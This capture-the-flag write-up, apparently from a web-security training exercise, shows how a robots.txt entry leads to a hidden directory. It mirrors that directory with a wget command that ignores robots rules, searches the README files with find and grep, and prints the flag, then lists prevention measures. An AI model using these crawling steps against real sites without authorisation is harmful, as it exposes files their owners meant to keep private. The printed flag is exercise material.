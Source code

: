 # Description

Visting the robots.txt route give us the follwing output

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

If we visit the /.hidden route we will get a recursive directories containing a file named README

The thing here is to loop through all directories and print all **README** files till we get the flag.

# Attack 

To do that we need to download the whole directory offline using **wget**

```
[~/goinfre/dd]$ wget -r -npH --cut-dirs=1 -R "index.html*" -e "robots=off" "http://10.14.59.83/.hidden/"
[~/goinfre/dd]$ ls
amcbevgondgcrloowluziypjdh  jfiombdhvlwxrkmawgoruhbarp  rlnoyduccpqxkvcfiqpdikfpvx
bnqupesbgvhbcwqhcuynjolwkm  kpibbgxjqnvrrcpczovjbvijmz  sdnfntbyirzllbpctnnoruyjjc
ceicqljdddshxvnvdqzzjgddht  ldtafmsxvvydthtgflzhadiozs  trwjgrgmfnzarxiiwvwalyvanm
doxelitrqvhegnhlhrkdgfizgj  mrucagbgcenowkjrlmmugvztuh  urhkbrmupxbgdnntopklxskvom
eipmnwhetmpbhiuesykfhxmyhr  ntyrhxjbtndcpjevzurlekwsxt  viphietzoechsxwqacvpsodhaq
ffpbexkomzbigheuwhbhbfzzrg  oasstobmotwnezhscjjopenjxy  whtccjokayshttvxycsvykxcfm
ghouhyooppsmaizbmjhtncsvfz  ppjxigqiakcrmqfhotnncfqnqg  xuwrcwjjrmndczfcrmwmhvkjnh
hwlayeghtcotqdigxuigvjufqn  qcwtnvtdfslnkvqvzhjsmsghfw  yjxemfsgdlkbvvtjiylhdoaqkn
isufpcgmngmrotmrjfjonpmkxu  README                      zzfzjvjsupgzinctxeqtzzdzll
```



Now we will use find command to find all README files and print it's content, it my take a while

```
[~/goinfre/dd]$ find . -type f -name "README" -exec cat {} \;|grep flag                                 
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
[~/goinfre/dd]$ 
```

# Prevention
	- *robots.txt:* While robots.txt is used to communicate with web crawlers, it's not a secure method for hiding sensitive content. Avoid placing sensitive information in locations mentioned in robots.txt.

	- *Directory Listing:* Disable directory listing on your web server to prevent the automatic display of directory contents. This can be configured in the server's settings.

	- *Access Control:* Implement proper access controls to restrict access to sensitive directories and files. Use authentication and authorization mechanisms to ensure that only authorized users can access them.

	- *Sensitive Information:* Avoid placing sensitive information in locations accessible from the web. Sensitive data should be stored securely, away from the webroot.